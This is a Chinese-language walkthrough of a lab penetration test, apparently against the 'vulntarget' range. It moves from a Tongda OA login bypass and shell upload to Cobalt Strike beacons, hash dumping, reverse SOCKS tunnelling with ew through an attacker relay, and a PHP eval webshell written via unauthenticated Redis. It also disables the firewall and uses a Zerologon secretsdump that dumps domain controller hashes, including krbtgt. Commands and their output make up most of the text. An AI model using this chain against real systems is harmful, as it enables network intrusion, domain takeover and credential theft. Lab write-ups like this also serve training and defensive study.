## 打点

```
./rscan_linux_amd64 scan -i 192.168.111.20 --noping
```



### MS17 010

优先打 445 端口



### 通达 oa

通过任意用户登录漏洞拿到 admin 的cookie，上传shell



```
http://192.168.111.20/_947H2FW.php
```



两张网卡：192.168.111.20  10.0.20.98

看一下有没有杀软

```
tasklist /SVC
```

没有杀软

上线CS，然后进行信息收集

## 内网

进程注入，找个x64的

```
inject 1456 x64 0411
```



### 信息收集

```
04/20 23:57:39 beacon> shell ipconfig /all
04/20 23:57:39 [*] Tasked beacon to run: ipconfig /all
04/20 23:57:40 [+] host called home, sent: 44 bytes
04/20 23:57:43 [+] received output:

Windows IP 配置

   主机名  . . . . . . . . . . . . . : win7-PC
   主 DNS 后缀 . . . . . . . . . . . : 
   节点类型  . . . . . . . . . . . . : 混合
   IP 路由已启用 . . . . . . . . . . : 否
   WINS 代理已启用 . . . . . . . . . : 否

以太网适配器 本地连接 2:

   连接特定的 DNS 后缀 . . . . . . . : 
   描述. . . . . . . . . . . . . . . : Intel(R) PRO/1000 MT Network Connection #2
   物理地址. . . . . . . . . . . . . : 00-50-56-B1-D7-96
   DHCP 已启用 . . . . . . . . . . . : 否
   自动配置已启用. . . . . . . . . . : 是
   本地链接 IPv6 地址. . . . . . . . : fe80::4da1:3d14:4c13:5de3%13(首选) 
   IPv4 地址 . . . . . . . . . . . . : 10.0.20.98(首选) 
   子网掩码  . . . . . . . . . . . . : 255.255.255.0
   默认网关. . . . . . . . . . . . . : 
   DHCPv6 IAID . . . . . . . . . . . : 301993001
   DHCPv6 客户端 DUID  . . . . . . . : 00-01-00-01-29-22-BE-AC-00-0C-29-B3-DB-08
   DNS 服务器  . . . . . . . . . . . : fec0:0:0:ffff::1%1
                                       fec0:0:0:ffff::2%1
                                       fec0:0:0:ffff::3%1
   TCPIP 上的 NetBIOS  . . . . . . . : 已启用

以太网适配器 本地连接:

   连接特定的 DNS 后缀 . . . . . . . : 
   描述. . . . . . . . . . . . . . . : Intel(R) PRO/1000 MT Network Connection
   物理地址. . . . . . . . . . . . . : 00-50-56-B1-33-AC
   DHCP 已启用 . . . . . . . . . . . : 否
   自动配置已启用. . . . . . . . . . : 是
   本地链接 IPv6 地址. . . . . . . . : fe80::d1a2:f1b5:7745:3929%11(首选) 
   IPv4 地址 . . . . . . . . . . . . : 192.168.111.20(首选) 
   子网掩码  . . . . . . . . . . . . : 255.255.255.0
   默认网关. . . . . . . . . . . . . : 
   DHCPv6 IAID . . . . . . . . . . . : 234884137
   DHCPv6 客户端 DUID  . . . . . . . : 00-01-00-01-29-22-BE-AC-00-0C-29-B3-DB-08
   DNS 服务器  . . . . . . . . . . . : fec0:0:0:ffff::1%1
                                       fec0:0:0:ffff::2%1
                                       fec0:0:0:ffff::3%1
   TCPIP 上的 NetBIOS  . . . . . . . : 已启用
   ......
```

两张网卡：

192.168.111.20

10.0.20.98

#### hashdump

```
04/21 00:00:16 beacon> hashdump
04/21 00:00:16 [*] Process Inject using fork and run.
04/21 00:00:16 [*] Tasked beacon to dump hashes
04/21 00:00:18 [+] host called home, sent: 83111 bytes
04/21 00:00:19 [+] received password hashes:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:ff8d3a91dc35b645a836b20d2d4e0ae4:::
win7:1001:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
```

```
mimikatz sekurlsa::logonpasswords
```



没有抓到

#### 收集内网其他机器

**ARP**

```
04/21 00:04:17 beacon> shell arp -a
04/21 00:04:17 [*] Tasked beacon to run: arp -a
04/21 00:04:18 [+] host called home, sent: 37 bytes
04/21 00:04:19 [+] received output:

接口: 192.168.111.20 --- 0xb
  Internet 地址         物理地址              类型
  192.168.111.25        00-50-56-b1-be-a2     动态        
  192.168.111.255       ff-ff-ff-ff-ff-ff     静态        
  224.0.0.22            01-00-5e-00-00-16     静态        
  224.0.0.252           01-00-5e-00-00-fc     静态        

接口: 10.0.20.98 --- 0xd
  Internet 地址         物理地址              类型
  10.0.20.255           ff-ff-ff-ff-ff-ff     静态        
  224.0.0.22            01-00-5e-00-00-16     静态        
  224.0.0.252           01-00-5e-00-00-fc     静态  
```

**ICMP**

```
for /L %I in (1,1,254) DO @ping -w 1 -n 10.0.20.%I | findstr "TTL="
```

### 一层代理

 用 ew 建立反向代理

```
./ew_for_linux64 -s rcsocks -l 1080 -e 8888
```

反向连接 192.168.111.25

```
ew.exe -s rssocks -d 192.168.111.25 -e 8888
```

通过 192.168.111.25 1080端口访问 rssocks 服务

**NetBIOS API**

```
04/21 00:16:55 beacon> shell nbtscan-1.0.35.exe 10.0.20.98/24
04/21 00:16:55 [*] Tasked beacon to run: nbtscan-1.0.35.exe 10.0.20.98/24
04/21 00:16:56 [+] host called home, sent: 63 bytes
04/21 00:17:04 [+] received output:
10.0.20.98      WORKGROUP\WIN7-PC               SHARING
*timeout (normal end of scan)
```

#### Fscan

```
fscan.exe -h 10.0.20.0/24 -np
```

```
[+] 端口开放 10.0.20.98:445
[+] 端口开放 10.0.20.98:139
[+] 端口开放 10.0.20.98:135
[+] 端口开放 10.0.20.98:80
[*] NetInfo
[*] 10.0.20.98
   [->] win7-PC
   [->] 10.0.20.98
   [->] 192.168.111.20
[*] 网站标题 http://10.0.20.98         状态码:200 长度:10065  标题:通达OA网络智能办公系统
[+] MS17-010 10.0.20.98	(Windows 7 Professional 7601 Service Pack 1)
[+] 发现指纹 目标: http://10.0.20.98         指纹: [通达OA]
[+] [发现漏洞] 目标: http://10.0.20.98
  漏洞类型: tongda-user-session-disclosure
  漏洞名称: 
  详细信息: %!s(<nil>)
[+] 端口开放 10.0.20.99:80
[+] 端口开放 10.0.20.98:80
[+] 端口开放 10.0.20.98:135
[+] 端口开放 10.0.20.98:139
[+] 端口开放 10.0.20.98:445
[+] 端口开放 10.0.20.99:6379
```

### 10.0.20.99

10.0.20.99:80







10.0.20.99:6379

存在未授权，可以尝试写webshell，上面泄露了 web 绝对路径

```
roxychains4 redis-cli -h 10.0.20.99                    
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.0.20.99:6379  ...  OK
not connected> set shell "<?php eval($_POST[1]);?>"
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.0.20.99:6379  ...  OK
OK
(0.62s)
10.0.20.99:6379> 
10.0.20.99:6379> get shell
"<?php eval($_POST[1]);?>"
10.0.20.99:6379> config set dir "C:/phpStudy/PHPTutorial/WWW"
OK
10.0.20.99:6379> config set dbfilename shell.php
OK
10.0.20.99:6379> save
OK
```

http://10.0.20.99/shell.php



查看有没有杀软



```
netsh advfirewall set allprofiles state off
```

```
04/21 01:17:04 beacon> hashdump
04/21 01:17:04 [*] Process Inject using fork and run.
04/21 01:17:04 [*] Tasked beacon to dump hashes
04/21 01:17:05 [+] host called home, sent: 83111 bytes
04/21 01:17:06 [+] received password hashes:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:570a9a65db8fba761c1008a51d4c95ab:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```





搭建二级代理

win2016 启动一个方向 socks 服务，到win7上

win7 连接 win2016 并且转发到 kali上 

```
ew.exe -s ssocksd -l 9999

ew.exe -s lcx_slave -d 192.168.111.25 -e 8889 -f 10.0.20.99 -g 9999

ew_linux_amd64 -s lcx_listen -l 1090 -e 8889
```


### CVE-2020-1472 打域控

```
proxychains4 impacket-secretsdump vulntarget.com/win2019\$@10.0.10.110 -just-dc  -no-pass
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[proxychains] Strict chain  ...  127.0.0.1:1090  ...  10.0.10.110:445  ...  OK
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[proxychains] Strict chain  ...  127.0.0.1:1090  ...  10.0.10.110:135  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1090  ...  10.0.10.110:49667  ...  OK
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c7c654da31ce51cbeecfef99e637be15:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a3dd8e4a352b346f110b587e1d1d1936:::
vulntarget.com\win2016:1601:aad3b435b51404eeaad3b435b51404ee:dfc8d2bfa540a0a6e2248a82322e654e:::
WIN2019$:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WIN2016$:1602:aad3b435b51404eeaad3b435b51404ee:5fad3474231f469166167acc68726779:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:70a1edb09dbb1b58f1644d43fa0b40623c014b690da2099f0fc3a8657f75a51d
Administrator:aes128-cts-hmac-sha1-96:04c435638a00755c0b8f12211d3e88a1
Administrator:des-cbc-md5:dcc29476a789ec9e
krbtgt:aes256-cts-hmac-sha1-96:f7a968745d4f201cbeb73f4b1ba588155cfd84ded34aaf24074a0cfe95067311
krbtgt:aes128-cts-hmac-sha1-96:f401ac35dc1c6fa19b0780312408cded
krbtgt:des-cbc-md5:10efae67c7026dbf
vulntarget.com\win2016:aes256-cts-hmac-sha1-96:e4306bef342cd8215411f9fc38a063f5801c6ea588cc2fee531342928b882d61
vulntarget.com\win2016:aes128-cts-hmac-sha1-96:6da7e9e046c4c61c3627a3276f5be855
vulntarget.com\win2016:des-cbc-md5:6e2901311c32ae58
WIN2019$:aes256-cts-hmac-sha1-96:092c877c3b20956347d535d91093bc1eb16b486b630ae2d99c0cf15da5db1390
WIN2019$:aes128-cts-hmac-sha1-96:0dca147d2a216089c185d337cf643e25
WIN2019$:des-cbc-md5:01c8894f541023bc
WIN2016$:aes256-cts-hmac-sha1-96:34df63df6bed8eda0a9bcbb5a75eb57174b6adf0e90e361fa24d931f4dd90183
WIN2016$:aes128-cts-hmac-sha1-96:3d755b7cbed4696347b9cb509efc8ac5
WIN2016$:des-cbc-md5:91e95b02e5f4b5ce
[*] Cleaning up... 
```

### 10.0.10.110 域控



正向 http 上线 cs



```
04/21 02:25:38 beacon> shell whoami
04/21 02:25:38 [*] Tasked beacon to run: whoami
04/21 02:25:40 [+] host called home, sent: 37 bytes
04/21 02:25:41 [+] received output:
vulntarget\administrator

04/21 02:25:52 beacon> ipconfig /all
04/21 02:25:52 [*] Running ipconfig (T1016)
04/21 02:25:55 [+] host called home, sent: 2524 bytes
04/21 02:25:55 [+] received output:
{6497ABC4-F625-4F79-8140-3698B1E98DCA}
	Ethernet
	Intel(R) 82574L Gigabit Network Connection
	00-50-56-B1-3F-6C
	10.0.10.110
Hostname: 	win2019
DNS Suffix: 	vulntarget.com
DNS Server: 	10.0.10.110
```

